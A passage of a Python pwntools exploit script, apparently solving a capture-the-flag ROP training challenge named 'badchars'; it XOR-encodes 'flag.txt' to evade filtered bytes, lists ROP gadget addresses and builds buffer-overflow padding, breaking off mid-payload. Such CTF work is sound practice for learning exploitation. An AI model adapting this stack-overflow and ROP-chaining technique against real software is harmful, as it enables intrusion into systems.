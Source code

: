 ```python
from pwn import *

# --------------------------------------------------
# Step 1: Define target binary and start the process
elf = context.binary = ELF("badchars")
rop = ROP(elf)
io = process(elf.path)

# --------------------------------------------------
# Step 2: Define bad characters and helper function

# List of bad characters to avoid in the payload
badchars = ['x', 'g', 'a', '.']

# Function: XORs bad characters in a string with a given key
#   - Returns the XORed string and list of indices where XOR was applied
def xor_string(string, key):
    xor_indxs = []
    output = ""
    for indx, char in enumerate(string):
        if char in badchars:
            nchar = chr(ord(char) ^ key) # `chr` convers integer ASCII back to character and `ord` converts character to its ASCII.
            output += nchar
            xor_indxs.append(indx)
        else:
            output += char
    return bytes(output.encode('latin')), xor_indxs

# --------------------------------------------------
# Step 3: Define useful gadgets and memory locations

# Gadget: pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
#   - Used to set r12 = string, r13 = destination, r14/r15 = junk or used later
pop_r12_r15 = p64(0x40069c)

# Gadget: mov qword ptr [r13], r12 ; ret
#   - Writes r12 to address pointed by r13
mov = p64(0x400634)

# Gadget: xor byte ptr [r15], r14b ; ret
#   - Used to decode single bytes in memory by XORing with r14b
xor = p64(0x400628)

# Memory: Writable section (.bss) to store our string
bss_addr = 0x601038

# Target string to write (must avoid badchars)
data2write = 'flag.txt'

# Random XOR key to encode badchars in the string
xor_key = 2

# Encode the string using XOR to avoid badchars
xoredstr, xor_offsets = xor_string(data2write, xor_key)

# --------------------------------------------------
# Step 4: Create initial padding to reach return address
# 40 bytes needed to overflow the buffer up to saved RIP
payload = b'A' * 40

# --------------------------------------------------
# Step 5: Write encoded string into memory using gadgets
```